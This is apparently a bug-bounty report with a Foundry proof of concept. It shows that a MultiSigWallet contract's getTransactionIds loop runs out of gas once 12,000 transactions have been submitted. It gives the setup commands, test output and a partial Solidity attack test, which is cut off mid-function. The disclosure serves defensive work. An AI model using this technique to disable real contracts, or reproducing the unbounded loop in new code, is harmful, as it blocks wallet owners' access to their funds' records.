```
            _transactionIds[i - from] = transactionIdsTemp[i];
    }
```
# Proof of concept
You will have to clone the immunefi poc repo and follow the steps below. I had to upgrade the MultiSigWallet code to match solc v0.8.19 compiler in order todo this PoC. Nevertheles, I also tested in Remix using the same compiler (v0.4.26, also using the original code) and the it start reverting at around 1200 txs. Once you run the test, you can see the gas used which is above 30M, which confirm the problem.

- git clone https://github.com/immunefi-team/forge-poc-templates.git
- forge init --template immunefi-team/forge-poc-templates --branch default
- Add the following code in src folder, which is the MultiSigWallet.sol contract but upgraded to compile with Solc 0.8.19.
- Replace test/PoCTest.sol with the following test.
- forge test -vv --match-test testAttack

```
Running 1 test for test/PoCTest.sol:PoCTest
[PASS] testAttack() (gas: 31621915)
Logs:

>>> Initial conditions: # transaction submitted --> 12000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 411.76ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "@immunefi/src/PoC.sol";
import "../src/MultiSigWallet.sol";

contract PoCTest is PoC {
    MultiSigWallet public walletContract;
    address constant ownerAccount1 = 0x2385D7aB31F5a470B1723675846cb074988531da;
    address constant ownerAccount2 = 0x0000000000000000000000000000000000000001;

    function setUp() public {
        deal(ownerAccount1, 1 ether);
        deal(ownerAccount2, 1 ether);

        // Deploy attack contract
        address[] memory accounts = new address[](2);
        accounts[0] = ownerAccount1;
        accounts[1] = ownerAccount2;
        walletContract = new MultiSigWallet(accounts, 2);
        
        // add dummy txs
        bytes memory localBytes = new bytes(1);
        for (uint k=0; k<12000; k++) {
            vm.prank(ownerAccount1);
            walletContract.submitTransaction(accounts[0], 0, localBytes);
        }

        uint txcount = walletContract.transactionCount();
        console.log("\n>>> Initial conditions: # transaction submitted -->", txcount);
    }

    function testAttack() public {
        walletContract.getTransactionIds(0, 20, true, true);
```